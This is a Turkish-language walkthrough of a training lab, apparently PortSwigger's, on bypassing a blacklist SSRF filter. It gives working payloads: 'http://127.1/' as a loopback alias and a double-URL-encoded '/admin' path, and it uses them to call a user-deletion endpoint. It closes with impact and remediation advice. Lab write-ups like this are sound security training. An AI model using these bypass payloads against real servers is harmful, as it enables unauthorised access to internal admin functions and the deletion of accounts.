# SSRF with blacklist-based input filter

## 1. Lab Bilgisi

**Difficulty:** Practitioner

## 2. Vulnerability Özeti

Bu labda ürün stok kontrolü için kullanılan `stockApi` parametresi sunucu tarafında URL çağırıyor. Uygulama SSRF'i engellemek için blacklist tabanlı bir filtre kullanıyor; `localhost`, `127.0.0.1` ve `admin` gibi değerleri engelliyor. Ancak blacklist eksik olduğu için loopback adresini `127.1` şeklinde yazarak, `admin` path'inin tamamını iki kere URL encode ederek filtreyi bypass ettim. Admin paneline SSRF ile erişip `carlos` kullanıcısını silerek labı çözdüm.

## 3. Kullanılan Payload

Localhost blacklist bypass:

```http
stockApi=http://127.1/
```

Admin path blacklist bypass:

```http
stockApi=http://127.1/%2561%2564%256d%2569%256e
```

Carlos kullanıcısını silmek için kullanılan endpoint:

```http
stockApi=http://127.1/%2561%2564%256d%2569%256e/delete?username=carlos
```

## 4. Exploitation Steps

1. İlk olarak ürün detay sayfasındaki stok kontrolü fonksiyonunu kullandım.



2. `Check stock` isteğini Burp Suite ile yakaladım. İstek içinde backend tarafından çağrılan `stockApi` parametresini gördüm.



3. SSRF'i test etmek için `stockApi` değerini local server üzerindeki admin paneline yönlendirmeyi denedim.

```http
stockApi=http://localhost/admin
```



4. Uygulama `localhost` değerini blacklist ile engelledi.



5. Bunun üzerine loopback IP adresiyle aynı hedefe gitmeyi denedim.

```http
stockApi=http://127.0.0.1/admin
```



6. `127.0.0.1` değeri de blacklist tarafından engellendi.



7. Loopback adresinin kısa yazımı olan `127.1` ile tekrar deneme yaptım.

```http
stockApi=http://127.1/
```



8. `127.1` değeri blacklist'e takılmadı ve local server'a erişilebildi.



9. Daha sonra admin paneline erişmek için path'i `/admin` yaptım.

```http
stockApi=http://127.1/admin
```



10. Bu kez uygulama `admin` kelimesini engellediği için `admin` path'inin tamamını URL encode ederek bypass denedim.

```http
stockApi=http://127.1/%61%64%6d%69%6e
```



11. Tek encode yeterli olmadığı için `admin` kelimesinin tamamını ikinci kez encode ettim. Böylece `%` karakterleri de encode edilerek double URL encoded path elde edildi.

```http
stockApi=http://127.1/%2561%2564%256d%2569%256e
```



12. Admin paneline eriştikten sonra `carlos` kullanıcısını silen endpoint'i hedefledim.

```http
stockApi=http://127.1/%2561%2564%256d%2569%256e/delete?username=carlos
```



13. Delete isteği başarılı olduktan sonra `carlos` kullanıcısı silindi ve lab başarıyla çözüldü.



## 5. Impact

Blacklist tabanlı SSRF filtreleri kolayca bypass edilebilir. Saldırgan alternatif IP gösterimleri, URL encoding, double encoding veya farklı URL parser davranışlarını kullanarak internal servislere erişebilir. Bu durumda local admin panelleri, internal servisler ve metadata endpoint'leri hedeflenebilir; yetki kontrolleri zayıfsa kritik işlemler gerçekleştirilebilir.

## 6. Remediation

SSRF koruması blacklist ile yapılmamalıdır. Bunun yerine yalnızca beklenen host, port ve path değerlerine izin veren sıkı allowlist kullanılmalıdır. URL parse ve normalize işlemleri güvenilir bir kütüphane ile tek seferde yapılmalı, doğrulama normalize edilmiş değer üzerinde uygulanmalıdır. Loopback, private IP, link-local ve internal adreslere giden istekler engellenmeli; redirect sonrası hedefler de yeniden doğrulanmalıdır. Admin endpoint'leri ayrıca güçlü authentication ve authorization kontrolleriyle korunmalıdır.
